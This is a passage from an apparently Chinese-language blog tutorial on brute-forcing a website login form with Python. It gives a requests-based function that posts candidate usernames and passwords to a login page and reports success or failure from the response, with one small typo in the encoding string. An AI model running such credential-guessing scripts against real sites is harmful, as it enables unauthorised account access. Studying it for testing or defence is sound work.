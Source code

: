 下面是运行结果 <br>

![images](/images/2019-07-13/bp04.png)

-----

假设用户名也不知道，那么我们也可以连用户名也一起爆破，<br>

给用户名也加一个 **format()** 就行了 <br>

下面是代码 <br>

使用 **for** 循环来传入用户名和密码进行爆破 <br>

```python
import requests
import time
import re

def login(user,pwd):

	try:
		headers = {

			"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0",
			"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
			"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"

		}

		url = "http://www.vd.com/user/logCheck.php"

		login = {"user":"{}".format(user),"pass":"{}".format(pwd),"submit":"login"}

		r = requests.post(url,headers=headers,data=login)

		r.encoding = 'urf-8'

		if '用户名或密码错误' in r.text:

			print("用户名: " +user+ " 密码: " + pwd +" -----> 登录失败")

		else:

			print("用户名: " +user+ " 密码: " + pwd + " -----> 登录成功")

	except:
		print("用户名: " +user+ " 密码: " + pwd + " -----> 无法访问")

```